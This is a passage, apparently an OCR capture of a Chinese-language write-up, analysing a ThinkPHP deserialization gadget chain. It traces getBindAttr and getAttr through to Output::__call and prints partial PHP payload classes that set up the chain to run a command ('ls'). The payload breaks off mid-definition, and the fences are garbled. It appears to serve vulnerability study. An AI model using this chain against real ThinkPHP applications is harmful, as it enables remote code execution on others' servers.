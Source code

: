 return $relationModel; 
``` `}` 
```

可以看到这些条件都是满足的，然后看getBindAttr，发现在OneToOne类中是可控的

```
public function getBindAttr()
{
    return $this->bindAttr;
} 
```

所以代码执行到

```
$item[$key] = $value ? $value->getAttr($attr) : null; 
```

就可以调用Output类的`__call`方法，调用payload如下

```
namespace think{
    use think\console\Output;
    use think\model\relation\HasOne;
    abstract class Model{
        protected $relation;
        protected $append = ["1"];
        protected $error;
        protected $parent;
        public function __construct()
        {
            $this->parent = new Output();
            $this->relation = ["getError"=>"getError"];
            $this->append = ["getError"=>"getError"];
            $this->error = new HasOne();
            $this->data = ["key"=>"ls"]; ;
        }
    }
}

namespace think\db{

use think\console\Output;

class Query

{

protected $model;

public function __construct()

{

$this->model = new Output();

}

}

}

namespace think\model\relation{

use think\db\Query;

use think\model\Relation;
```